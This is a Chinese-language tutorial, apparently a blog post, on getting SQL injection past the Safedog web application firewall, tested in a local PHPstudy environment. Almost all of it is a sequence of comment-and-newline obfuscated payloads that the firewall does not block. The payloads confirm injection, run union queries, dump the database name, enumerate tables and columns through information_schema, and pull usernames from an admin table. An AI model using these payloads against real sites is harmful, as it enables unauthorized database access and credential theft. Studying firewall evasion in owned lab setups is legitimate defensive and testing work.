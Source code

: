 ![](https://p3.ssl.qhimg.com/t010c39f4110b694beb.jpg)

## 前言

在做项目中遇到各种各样waf，跟着本文系列一起学习bypass。

## 安装

环境：win+PHPstudy+安全狗

## 过程

安装phpstudy需要以系统模式启动，否则安全狗无法识别安装防护插件。

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

## 进入主题

### 1.判断注入：

```
and 1=1 拦截
and -1=-1拦截
and /*/ /-- /*/1=1 不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 2.order by：

```
order by 1 拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

```
order/*//*/ by 1 不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 3.联合查询

```
and 1=2 union select 拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

```
注释+换行符绕过
and /*/%0A*a*/1=2 union/*/ /-- /*/select 1,2 不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 4.爆库：

```
and /*/%0A*a*/1=2 union/*/ /-- /*/select%201,database() 拦截
and /*/%0A*a*/1=2 union/*/ /-- /*/select%201,database/*/ /-- /*/()不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 5.爆表：

```
用以上方法bypass绕过
/*!and*/ /*/%0A*a*/1=2 /**//**/union/*/ /-- /*/ /*/%0A*a*/select 1,table_name /*!from--/*information_schema.tables*/ /*//*/where table_schema=/*!database*//*/ /-- /*/() limit 0,1 不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 6.获取列名

```
%20/*!and*/%20/*/%0A*a*/1=2%20/**//**/union/*/%20/--%20/*/%20/*/%0A*a*/select%201,column_name%20/*!from--%0F/*%0Ainformation_schema.columns*/%20/*//*/where%20table_schema=/*!database*//*/%20/--%20/*/()%20limit%200,1 不拦截
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

### 7.获取字段：

```
union/*/%20/--%20/*/select%201,/*!username*/%20/*//*!--+*/from%20admin%20limit%201,1
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

## 总结

手法采用了大量注释+换行来达到bypass效果。  
如文中有误请不吝指正

## 参考文献

[https://github.com/aleenzz/MYSQL\_SQL\_BYPASS\_WIKI](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI)
